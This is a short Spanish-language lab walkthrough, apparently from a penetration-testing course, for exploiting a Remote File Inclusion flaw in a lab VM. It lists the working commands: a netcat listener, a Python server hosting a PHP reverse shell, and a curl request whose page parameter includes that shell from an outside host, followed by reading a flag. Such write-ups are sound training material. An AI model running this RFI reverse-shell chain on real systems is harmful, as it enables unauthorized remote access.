 # Walk: Laboratorio 2 de 2 Remote File Inclusion

## Fecha: 20/01/2025
## Host: Ubuntu
## IP: 192.168.

---

## Objetivo
Instead of including the **/usr/share/webshells/php/simple-backdoor.php **webshell, 
include the PHP reverse shell from Pentestmonkey's Github repository. 
Change the $ip variable to the IP of your Kali machine and $port to 4444. 
Start a Netcat listener on port 4444 on your Kali machine and exploit the 
RFI vulnerability on VM #2 to include the PHP reverse shell. 
Find the flag in the **/home/guybrush/.treasure/flag.txt** file.

---
## Herramientas
1. python3 http.server
2. curl
---
## Procedimiento y comandos
1. Paso 1: Descargamos el reverse-shell desde el repo en github y levantamos el servidor desde el directorio.
	- **python3 -m http.server 80**
2. Paso 2: Editamos el archivo con nuestra IP, el puerto 4444 y levantamos nc en ese puerto:
	- **nc -lnvp 4444**
3. Paso 3: Explotamos con curl el RFI:
	- **curl -i "http://192.168.227.16/meteor/index.php?page=http://192.168.45.205/php-reverse-shell.php" **
	- Obtenemos el reverse shell
4. Paso 4: Obtenemos el flag:
	- **cat /home/guybrush/.treasure/flag.txt**
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

